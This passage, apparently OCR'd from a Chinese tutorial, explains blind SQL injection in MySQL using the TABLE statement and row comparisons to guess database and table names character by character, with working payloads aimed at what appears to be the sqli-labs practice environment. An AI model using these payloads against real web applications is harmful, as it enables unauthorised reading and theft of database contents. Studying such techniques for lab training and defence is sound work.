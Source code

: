 小技巧

```python
最好用<=替换<，用<比较一开始并没有问题，但到最后一位时结果为正确字符的前一个字符，用<=结果更直观。
mysql> select ((1,'Dumb','Dumb')<=(table users limit 1));
+--------------------------------------------+
| ((1,'Dumb','Dumb')<=(table users limit 1)) |
+--------------------------------------------+
|                                          1 |
+--------------------------------------------+
1 row in set (0.00 sec)

mysql> select ((1,'Dumb','Dumc')<=(table users limit 1));
+--------------------------------------------+
| ((1,'Dumb','Dumc')<=(table users limit 1)) |
+--------------------------------------------+
|                                          0 |
+--------------------------------------------+
1 row in set (0.00 sec)
```

### 注数据库

因为table不能像select控制列数，除非列数一样的表，不然都回显不出来。
需要使用table查询配合无列名盲注
information_schema.schemata表有6列
因为schemata表中的第一列是def，不需要判断，所以可以直接判断库名

```python
1' and ('def','m','',4,5,6)<=(table information_schema.schemata limit 1)--+ #回显正常
1' and ('def','n','',4,5,6)<=(table information_schema.schemata limit 1)--+ #回显错误
#得到第1个数据库名的第一个字符为m
......
1' and ('def','mysql','',4,5,6)<=(table information_schema.schemata limit 1)--+ #回显正常
1' and ('def','mysqm','',4,5,6)<=(table information_schema.schemata limit 1)--+ #回显错误
1' and ('def','information_schema','',4,5,6)<=(table information_schema.schemata limit 1,1)--+ #回显正常
1' and ('def','information_schemb','',4,5,6)<=(table information_schema.schemata limit 1,1)--+ #回显错误
#说明第2个数据库名为information_schema
......
一直猜解，直到获得全部数据库名
```

### 爆数据表

information_schema.tables表有21列

```python
1' and ('def','security','users','',5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21)<=(table information_schema.tables limit 317,1)--+ #第一个表users

1' and ('def','security','emails','',5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21)<=(table information_schema.tables limit 318,1)--+ #第二个表emails

1' and ('def','security','uagents','',5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21)<=(table information_schema.tables limit 319,1)--+ #第三个表uagents

1' and ('def','security','referers','',5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21)<=(table information_schema.tables limit 320,1)--+ #第四个表referers
```
